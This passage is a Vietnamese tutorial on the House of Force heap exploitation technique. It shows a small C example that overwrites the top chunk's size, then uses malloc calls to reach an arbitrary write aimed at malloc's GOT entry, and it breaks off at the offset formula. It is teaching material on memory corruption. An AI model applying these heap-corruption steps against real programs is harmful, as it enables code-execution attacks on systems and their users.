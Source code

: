 # House of Force

- tiếp tục với series học heap thì hôm nay ta sẽ học 1 kĩ thuật mới khai thác heap đó là **House of Force**
- như chúng ta đã biết thì kĩ thuật **House of Spirit** được dùng để khai thác **fast bins**, còn với **House of Force** thì được dùng để khai thác **top chunks**, giúp ta có thể malloc trả về 1 địa chỉ mình muốn
- để hiểu rõ hơn thì mình cùng xem ví dụ dưới

## Example

```c 
int main()
{
long * ptr, * ptr2;
ptr = malloc (0x10);
ptr = (long *) (((long) ptr) +24);
*ptr=-1; // &lt;=== Change the size field of the top chunk to 0xffffffffffffffff
Malloc(-4120); // &lt;=== reduce the top chunk pointer
Malloc(0x10); // &lt;=== allocate blocks to implement arbitrary address writes
}
```

- đầu tiên thì ta khởi tạo cho ptr = malloc(0x10), lúc này heap sẽ như sau

```c 
0x602000: 0x0000000000000000 0x0000000000000021 &lt;=== ptr
0x602010: 0x0000000000000000 0x0000000000000000

0x602020: 0x0000000000000000 0x0000000000020fe1 <=== top chunk
0x602030: 0x0000000000000000 0x0000000000000000
```
- ta thấy size của top chunk hiện tại đang là 0x20fe1
- target là ta muốn đến là got&malloc(0x601020)

```c 
ptr = (long *) (((long) ptr) +24);
*ptr=-1;
```
- lúc này ta sẽ set cho size của top chunk = -1 => IOF xảy ra và size lúc này là 0xffffffffffffffff
- với chunk có size rất lớn như vậy thì hoàn toàn có thể bao phủ toàn bộ không gian bộ nhớ của chương trình, vượt qua vùng nhớ của heap
- addr top chunk hiện tại là 0x602020 + 0x10(heap metadata) = 0x602030
```c 
0x7ffff7dd1b20 <main_arena>:    0x0000000100000000  0x0000000000000000

0x7ffff7dd1b30 <main_arena+16>: 0x0000000000000000  0x0000000000000000

0x7ffff7dd1b40 <main_arena+32>: 0x0000000000000000  0x0000000000000000

0x7ffff7dd1b50 <main_arena+48>: 0x0000000000000000  0x0000000000000000

0x7ffff7dd1b60 <main_arena+64>: 0x0000000000000000  0x0000000000000000

0x7ffff7dd1b70 <main_arena+80> : 0x0000000000000000 0x0000000000602020 &lt;=== top chunk at this point everything is fine
0x7ffff7dd1b80 <main_arena+96>: 0x0000000000000000  0x00007ffff7dd1b78
```
- lúc này ta có muốn malloc sẽ trả về địa chỉ của got&malloc(0x601020) < 0x602030
- ta có công thức tính offset như sau:
